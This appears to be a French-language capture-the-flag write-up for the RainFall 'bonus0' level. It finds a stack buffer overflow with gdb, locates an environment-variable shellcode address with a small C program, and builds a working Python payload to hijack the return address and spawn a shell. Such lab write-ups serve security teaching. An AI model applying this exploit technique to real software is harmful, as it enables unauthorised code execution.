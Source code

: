 Pour une fois le programme n'attends pas d'argument.

Il propose deux prompt et concatene les deux string avec un espace au milieu.

bonus0@RainFall:~$ ./bonus0
 -
a
 -
b
a b

On va essayer de voir si on peut faire segfault le programme et si oui a partir de combien :

La premiere entree va jusque 4096 sans segfault, par contre la deuxieme segfaut au 17e charactere.

(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/bonus0/bonus0
 -
qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq
 -
AAAAAAAAAAAAAAAAAA
qqqqqqqqqqqqqqqqqqqqAAAAAAAAAAAAAAAAAA AAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x00414141 in ?? ()
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/bonus0/bonus0
 -
qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq
 -
AAAAAAAAAAAAAAAAA
qqqqqqqqqqqqqqqqqqqqAAAAAAAAAAAAAAAAA AAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0xb7e40041 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb)

avec gdb on s'apercoit que notre overflow du buffer ecrit sur esp, et qu'un charactere de moins deplace de 4 . 

(gdb) x/4s $esp-4
0xbffff70c:	 "A"
0xbffff70e:	 "\344\267\001"
0xbffff712:	 ""
0xbffff713:	 ""

On va appeler l'adresse de notre shellcode de l'environnement ici comme au level 2.

#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
    char* ptr = getenv("SHELLCODE");
    printf("%p\n", ptr);
}

>> 0xbffff831 
l'adresse du shellcode

On va construire un payload:

 4095 * A + \n  + padding + adresse du shell code 
   premiere entree  

pour trouver le padding on utiliser 
https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/

offset = 9

python -c "print 'A'*4095 + '\n' + 'A'*9 + '\x31\xf8\xff\xbf'  > /tmp/test

On se segfault plus, la string n'est plus assez longue ! Il suffit de rajouter au moins 7 characteres derriere pour remplir le buffer de 20 ( 20 - 9 - 4(adresse) = 7)


bonus0@RainFall:~$(python -c "print 'A'*4095 + '\n' + 'A'*9 + '\x31\xf8\xff\xbf' + 'A'*7" ; cat -) | ./bonus0
